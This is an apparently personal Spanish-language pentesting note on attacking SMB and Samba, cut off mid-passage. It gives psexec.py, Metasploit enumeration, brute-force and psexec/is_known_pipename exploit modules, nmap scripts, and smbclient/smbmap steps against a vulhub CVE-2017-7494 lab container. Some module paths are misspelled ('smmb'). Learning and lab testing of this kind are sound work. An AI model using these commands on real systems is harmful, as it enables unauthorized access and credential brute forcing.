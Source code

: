 ```bash
psexec.py Administrator@<ip> cmd.exe
```

## [[metasploit]]

Para enumerar usuarios o *shares*:
```bash
use auxiliary/scanner/smmb/smb_enumusers
use auxiliary/scanner/smmb/smb_enumshares
```

El módulo `scanner/smb/smb_login` permite aplicar fuerza bruta para encontrar credenciales válidas. Y con `exploit/windows/smb/psexec` podemos obtener una sesión.

Para **SAMBA**:
```bash
use exploit/linux/samba/is_known_pipename
```

## [[nmap]]

```bash
nmap -p445 --script smb-protocols <ip>
nmap -p445 --script smb-smb-security-mode <ip>
nmap -p445 --script smb-enum-users <ip>
```

# SMB Relay

# POC

Para la prueba de concepto utilizaremos el contenedor del siguiente [repo](https://github.com/vulhub/vulhub/tree/master/samba/CVE-2017-7494).

Para conectarnos a SMB utilizaremos [[smbclient]]:

```bash
smbclient -L 127.0.0.1 -N
```
> `-N` lo utilizamos cuando no disponemos de credenciales.

Otra forma más cómoda de enumerar es con [[smbmap]]:

```bash
smbmap -H 127.0.0.1
```

Una vez sabemos que existe cierto recurso y tenemos capacidad de lectura:

```bash
smbclient //127.0.0.1/recurso -N
```


Una vez dentro, podemos utilizar los siguientes comandos:
